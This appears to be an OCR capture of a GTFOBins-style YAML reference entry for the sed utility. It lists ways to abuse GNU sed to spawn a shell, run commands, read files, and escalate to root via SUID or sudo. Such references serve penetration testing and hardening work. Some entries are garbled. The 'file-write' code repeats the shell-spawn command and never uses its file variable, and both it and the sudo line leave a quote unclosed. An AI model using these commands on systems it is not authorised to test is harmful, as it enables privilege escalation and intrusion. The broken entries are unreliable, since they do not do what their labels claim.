```yaml
---
functions:
  execute-interactive:
    - description: GNU version only. Also, this requires `bash`.
      code: sed -n '1e exec sh 1>&0' /etc/hosts
  execute-non-interactive:
    - description: GNU version only.
      code: sed -n "1e id" /etc/hosts
  file-write:
    - code: |
        LFILE=file_to_write
        sed -n '1e exec sh 1>&0 /etc/hosts
  file-read:
    - code: |
        LFILE=file_to_read
        sed '' "$LFILE"
  suid-enabled:
    - code: |
        LFILE=file_to_read
        ./sed -e '' "$LFILE"
  sudo-enabled:
    - description: GNU version only. Also, this requires `bash`.
      code: sudo sed -n '1e exec sh 1>&0 /etc/hosts
---
```

